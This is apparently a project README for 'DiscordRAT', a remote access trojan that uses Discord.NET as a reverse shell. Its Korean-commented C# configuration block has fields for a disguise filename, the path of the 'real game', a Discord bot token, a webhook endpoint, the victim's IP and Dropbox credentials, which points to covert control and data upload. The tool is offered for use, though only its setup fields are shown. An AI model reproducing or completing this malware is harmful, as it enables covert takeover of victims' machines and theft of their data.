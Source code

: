 #DiscordRAT
![venom](https://capsule-render.vercel.app/api?type=venom&height=200&text=DiscordRAT&fontSize=70&color=0:8871e5,100:b678c4&stroke=b678c4)
Discord.NET 을 이용한 reverse shell
##how to use
```C# 8
private static GET GET = new GET();
// 본 프로그램의 이름
public string filename = "";
// 실제 게임의 위치
public string path = "";
// 프로그램 버전
public string version = " | 2.23v";
// 디스코드 봇 토큰
public string bot_token = "";
// 웹훅링크
public string EndPoint =
@"";
// ip
public string ip = GET.ip();
// 드랍박스 연결
public DropboxClient dropbox_ = new DropboxClient(
                                      oauth2RefreshToken: "",
                                      appKey: "",
                                      appSecret: "");
// 웹에 post를 보내기위한 HttpClient선언
public HttpClient client_ = new HttpClient();
```
